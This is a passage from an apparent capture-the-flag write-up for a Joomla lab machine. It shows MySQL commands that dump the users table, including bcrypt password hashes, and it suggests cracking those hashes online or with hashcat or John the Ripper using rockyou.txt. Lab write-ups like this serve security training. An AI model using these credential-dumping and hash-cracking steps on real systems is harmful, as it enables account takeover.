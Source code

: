2. `use joomla;` -> the joomla database might have the credentials, so lets shift to joomla database.
    ```SQL
    mysql> use joomla;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    ```


3. `show tables` -> lists all the table present in joomla database.
    - table named 'sd4fg_users' looks intriguing.

4. `select * from sd4fg_users` -> displays the contents of sd4fg_users table.
    ```SQL
    mysql> select * from sd4fg_users;
    +-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
    | id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
    +-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
    | 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-04-27 07:09:54 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
    | 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
    +-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
    ```

    Here we got the bcrypt hashed password for both user lewis and logan. Iused [this website](https://hashes.com/en/tools/hash_identifier) to decrypt the hash and retrieve the password.

    ![hash decrypted](./devvortex/decrypt_hash.jpg)

    <center>or</center>

    You can also use hashcat or john the ripper with password file rockyou,txt which come downloaded in Kali, to decrypt the hash. Refer to the example hash [wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

